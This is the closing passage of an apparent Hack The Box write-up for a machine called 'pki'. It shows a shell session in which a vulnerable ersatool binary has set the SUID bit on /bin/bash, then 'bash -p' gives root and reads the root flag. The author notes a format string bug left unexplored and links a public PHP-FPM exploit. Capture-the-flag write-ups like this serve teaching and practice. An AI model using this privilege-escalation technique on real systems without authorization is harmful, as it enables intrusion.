 It runs and prints out its output like normal. It looks like it worked, we've used the ersatool binary to add the SUID bit to /bin/bash which lets us start a bash shell as root:
```text
www-data@pki:/tmp$ ls -lah /bin/bash
ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.1M Jun  6  2019 /bin/bash
www-data@pki:/tmp$ /bin/bash -p
/bin/bash -p
whoami
root
cat /root/root.txt
c1044cebe5b2fb9c--truncated--
```

It's worth mentioning that the ersatool binary was also vulnerable to a format string vulnerability. While I did find this during my analysis of the code / fuzzing the binary, I didn't explore it because we found a much easier path to root.


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu
[3]: https://totp.danhersam.com/
[4]: https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
[5]: https://github.com/neex/phuip-fpizdam